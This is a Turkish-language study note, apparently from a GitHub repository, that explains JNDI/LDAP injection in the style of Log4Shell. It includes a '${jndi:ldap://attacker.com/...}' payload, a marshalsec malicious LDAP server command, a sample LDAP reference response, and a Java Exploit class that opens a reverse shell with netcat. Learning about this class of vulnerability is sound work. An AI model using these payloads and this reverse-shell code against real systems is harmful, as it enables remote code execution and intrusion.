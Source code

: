 # JNDI Injection (Log4Shell Tarzı RCE) 

# 📌 JNDI (Java Naming and Directory Interface) nedir?
Java'da nesneleri adlandırmak ve bunlara ağ üzerinden erişmek için kullanılan bir API'dir. Örnek protokoller:
- LDAP
- RMI
- DNS
- CORBA
# LDAP Nedir?
**LDAP**, “**Lightweight Directory Access Protocol**” (Hafif Dizin Erişim Protokolü) anlamına gelir.  
Bir tür **veri tabanı gibi çalışan dizin hizmetidir**, ama yapısı biraz farklıdır.
### LDAP Sunucusu Ne Yapar?

Bir **LDAP sunucusu**, organizasyon içindeki kullanıcılar, gruplar, bilgisayarlar, yazıcılar gibi **nesneleri** ve **ilişkilerini** hiyerarşik olarak saklar ve yönetir.

#### 🔧 Tipik Kullanım Alanları:
- Şirket içi **kullanıcı doğrulama sistemleri** (Single Sign-On)
- **Active Directory** gibi kurumsal servislerin temelidir
- E-posta sistemleri, VPN, intranet vs. kimlik doğrulamada
#### Saldırgan Tarafında LDAP Sunucusu Ne İşe Yarar?
Bir **kötü niyetli LDAP sunucusu**, aşağıdakileri yapar:
1. Saldırıya uğrayan uygulama, `${jndi:ldap://attacker.com/a}` gibi bir ifade loglarsa,
2. Uygulama LDAP sunucusuna bağlanır,
3. LDAP sunucusu "şu Java sınıfını şuradan indir" der,
4. Uygulama bu sınıfı indirip çalıştırır ⇒ **Remote Code Execution**

Marhsalsec ile LDAP sunucusu: 
```bash
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://attacker.com/#Exploit"
```

Loglanacak yerde eğer 
```bash
${jndi:ldap://attacker.com/a}
```
gibi bir payload görünürse 
Bu durumda Java uygulaması:
1. `attacker.com` adresine 389 (LDAP) portu üzerinden bağlanır
2. `a` adındaki **LDAP kaydını** ister
3. LDAP sunucusu buna `javaClassName`, `javaFactory`, `javaCodeBase` gibi alanlarla cevap verir
#### LDAP sunucusu :
```
dn: cn=a,dc=example,dc=com
objectClass: javaNamingReference
javaClassName: Exploit
javaFactory: Exploit
javaCodeBase: http://attacker.com/
```
gibi bir cevap dönebilir.

LDAP sunucusu seni `http.server` sunucuna yönlendirir ve buradan bir java classı çekerek çalıştırmasını sağlar.

```bash title:"#Exploit kısmı class ismini belirtir"
java -cp target/marshalsec-*.jar marshalsec.jndi.LDAPRefServer 
"http://{.class dosyanın bulunduğu sunucu ip si}/#Exploit"
```

```java title:"örnek reverse shell java kodu"
import java.io.IOException;
public class Exploit {
    static {
        try {
            // String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/localhost/4444 0>&1"};
            String[] cmd = {"/bin/sh", "-c", "nc 192.168.157.1 4444 -e /bin/sh"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
derleyip `Exploit.class` dosyası oluştur bu sayede bir RCE oluşur